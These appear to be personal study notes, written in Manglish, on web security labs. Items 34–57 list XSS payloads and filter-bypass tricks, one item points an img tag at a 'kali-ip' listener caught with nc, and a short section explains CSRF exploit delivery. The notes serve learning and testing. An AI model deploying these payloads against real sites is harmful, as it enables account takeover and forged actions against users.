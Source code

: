 34) ivide lab-15 il namal single qoute itt terminate chyan nokumbol backslash \ itt ath escape chyan javascript nokunu apol nama payload il thane \ backslash itt thodangumbol ath escape chyan js in patunila so namal  -->\'-alert(1)//     enn payload koduth chyunu
35) chela websites namale restrict chyam ethoke characters aan namuk type chyan allowed enn so athinanusarich nammal chyanam like ->onerror=alert;throw 1
36) application single qoute block chyunengil ->  &apos;-alert(document.domain)-&apos;  ingnae try chyam ivide qoute html encode chythathan lab-16
37) xss search chyumbol josu'josu"<> inganeoke ulla symbols oke itt try chyanam
38) browser ile view page source il namuk dom based xss test chyan patila pakaram ispect element adichit avide aan test chyendath
39) reflected xss il namal oru karyam type chyunu enit search adikumbol ath page il reflect chyunu enit ath vech payload undakunu but DOM il namal type chyunath code il append chynu.athayath ivide img tag il append aakunund so namal xss payload aaki search chyumbol aa payload ee img tag il varun enit search kazhiyuna aa time il thane ee xss trigger aakum
40) ivide product inte location check chyuna sthalath moon option und london,paris.newyork ivide sredhikanam.athayath oro country click chyumbozhum js action nadakunund.so inspect element adich nokumbol aa moon county ide mukalil aayi name=storeid enn und so javsript ee storeid eduthitan oro karyangal chyunath. so njan paranjath ingane oro action namal browser il chyumbol athinanusarich js work aakunund.so js work engane chyunu ie,id=,name= ingane ullathoke check chyanam - lab19
41) namal enthengilum karyam browser il nokeet athayath search all ithupole check stock pole oke chyumbol namuk apol thane result kanikuanthoke DOM xss undon check chyanam
42) epozhum ithupolul actions browser il nadakumbol athinte js code nokunath nallathayirikum. ivide search il search chythit aa result kitiya page ile js code nokiyapozhan manasilayath search chytha item .innerHTML vazhi sanitise chununden 
43) html injection vech ssrf kandupidikan patuon nokanam.ie, `<img src="http://kali-ip:port">`  koduth save chyuka enit kalil poi -->nc -nvlp port koduth enter adikuka ok
44) <marquee>joseph michal</marquee>
45) `<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
46) "onmouseover="alert(1)
47)  '-alert(document.domain)-'
48) ';alert(document.domain)//
49) `\'-alert(1)//`
50) http://foo?&apos;-alert(1)-&apos;
51) ${alert(1)}
52) # "><script>alert(3)</script>
53) ....edback?returnPath=javascript:alert(2)  (xss with open redirection)
54) <iframe sandbox="allow-forms" src="https://google.com"></iframe>
55) a fn to trigger xss :
!function(){  
‘use strict’;  
alert(onerror)//is null since the scope is still window  
}();
56) application angle bracket filter chyunaenil ex: > ith filter chyunangil inagne chythnok -> `<<sdf>script>alert(9)<<sf>/script>`  output ->`<script>alert(9)</script>`. in mate angle bracket aanengil reverse chythamathi ok
57) iframe vech xss trigger chyan -> `<img src=1 oNeRrOr=alert`1`>`

==============================================================

### CSRF:
1) The easiest way to construct a CSRF exploit is using the CSRF PoC generator in the burp suite
2) enthengilum actions nadakuna sthalangalil aan csrf chyuka like emailchange,passwordchange, money funding.
3) actions nadakanengil pala http requests serveril nadakum angane flow il nadakan session cookie aan use chyuka
4) koodathe unpredictable parameter/value undakanum padila.ie,email change chyuna samayath /POST req il last email=test@test.com  enn mathrame undakan padulu.allathe email paremeter il intekoode vere parameter undakan padila angaane undayal csrf work aakila. athayath email parameter inte koode oru csrf(contains a random number/string) enna oru parameter undayal athil oru value undakum so server aa value check chyum same allengil accept chyila
5) csrf enganeya deliver chyunathenal namude malicious script namal control chyuna oru web serveril host chyanam enit aa site victim ine kond visit chyikanam